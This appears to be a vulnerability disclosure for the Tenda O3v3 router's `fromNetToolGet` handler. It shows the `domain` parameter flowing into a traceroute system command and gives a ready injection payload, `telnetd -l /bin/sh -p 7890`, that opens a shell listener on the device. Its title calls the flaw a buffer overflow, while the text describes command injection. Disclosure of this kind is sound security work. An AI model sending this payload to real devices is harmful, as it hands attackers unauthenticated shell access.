

# Tenda O3 Vulnerability(Stack-Based Buffer Overflow and Arbitrary code execution)

This vulnerability lies in the `fromNetToolGet` CGI handler, which affects Tenda O3v3.
(The latest version is [V1.0.0.5](https://www.tenda.com.cn/product/download/O3v3.html))

## Vulnerability Description
There is a **stack-based buffer overflow** vulnerability in function `fromNetToolGet`, which is reachable via the `fromNetToolGet` handler registered by `websFormDefine("setPingInfo",(int)fromNetToolGet);` in `formDefineTendDa`.

In `fromNetToolGet`, A user-influenced HTTP parameters are retrieved through `websGetVar`, including:
- `puVar10 = websGetVar((int)param_1,"domain",&DAT_004a50ac);`

When the request satisfies the traceroute branch condition, the attacker-influenced `domain` parameter is used in the following command:
- `doSystemCmd("traceroute -n %s > /var/log_tr.txt &",puVar10);`

Reachability: the vulnerable path is entered when the request causes `fromNetToolGet` to process the traceroute workflow, for example when:
- `strcmp(pcVar3,"tranceroute") == 0` or `vos_strcmp(puVar4,&DAT_004a5568) == 0`
and then `hop == 1`

## Attack Vector
Send a crafted HTTP request to the `fromNetToolGet` CGI endpoint with domain=`telnetd -l /bin/sh -p 7890`,hop=1,pingMode=tranceroute
## Impact

- Denial of Service (process crash or device instability)
- Potentially arbitrary code execution 

## Timeline
- 2026-3-12: CVE request submitted to MITRE
